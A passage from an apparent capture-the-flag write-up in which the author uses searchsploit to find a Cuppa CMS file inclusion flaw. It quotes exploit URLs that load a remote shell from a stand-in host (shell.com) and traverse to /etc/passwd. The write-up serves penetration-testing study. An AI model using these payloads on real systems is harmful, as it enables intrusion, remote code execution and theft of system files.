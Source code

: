 ![](/assets/images/bravery/screenshot-5.png)

Then we search in searchsploit for vulnerabilities in this CMS, and I find a possible Local/Remote File Inclusion vulnerability for Cuppa CMS.

```console
root@kali:~$ searchsploit cuppa
------------------------------------------------------------------------------------------ ----------------------------
 Exploit Title                                                                            |  Path
------------------------------------------------------------------------------------------ ----------------------------
Cuppa CMS - '/alertConfigField.php' Local/Remote File Inclusion                           | php/webapps/25971.txt
------------------------------------------------------------------------------------------ ----------------------------
```

I transfer a copy of this exploit to my current working directory, and see that it can be exploited for local and remote file inclusion.

```console
root@kali:~$ searchsploit -m php/webapps/25971.txt
root@kali:~$ cat 25971.txt
...
http://target/cuppa/alerts/alertConfigField.php?urlConfig=http://www.shell.com/shell.txt?
http://target/cuppa/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
...
```
